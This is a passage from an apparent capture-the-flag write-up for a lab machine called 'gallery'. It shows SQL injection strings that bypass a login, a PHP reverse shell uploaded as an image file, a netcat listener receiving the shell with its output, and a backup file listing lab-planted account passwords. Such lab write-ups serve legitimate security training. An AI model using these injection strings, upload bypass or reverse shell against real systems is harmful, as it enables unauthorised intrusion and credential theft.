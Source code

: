 username: `a' OR '1=1`
password: `') OR ('1=1`

![image](/images/Pasted image 20230822223148.png)

and we are in.

![image](/images/Pasted image 20230822223223.png)

next i uploaded a *php-reverse-shell* as a image file. no filtering is happening.

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.58.13] 53840
Linux gallery 4.15.0-167-generic #175-Ubuntu SMP Wed Jan 5 01:56:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 20:33:18 up 15 min,  0 users,  load average: 0.00, 0.05, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
## Privileges Escalation
i have a shell but could not find anything useful. for most of the files in the home directory of the user *mike* i had to low privileges.

```shell
drwxr-xr-x 6 mike mike 4.0K Aug 25  2021 .
drwxr-xr-x 4 root root 4.0K May 20  2021 ..
-rw------- 1 mike mike  135 May 24  2021 .bash_history
-rw-r--r-- 1 mike mike  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mike mike 3.7K May 20  2021 .bashrc
drwx------ 3 mike mike 4.0K May 20  2021 .gnupg
drwxrwxr-x 3 mike mike 4.0K Aug 25  2021 .local
-rw-r--r-- 1 mike mike  807 Apr  4  2018 .profile
drwx------ 2 mike mike 4.0K May 24  2021 documents
drwx------ 2 mike mike 4.0K May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt

```

after a longer search i found a backup folder with a backup of mikes home directory. 

```shell
www-data@gallery:/var/backups/mike_home_backup/documents$ cat accounts.txt
Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```

i found a **accounts.txt** but not a single password worked. again a rabbit hole.
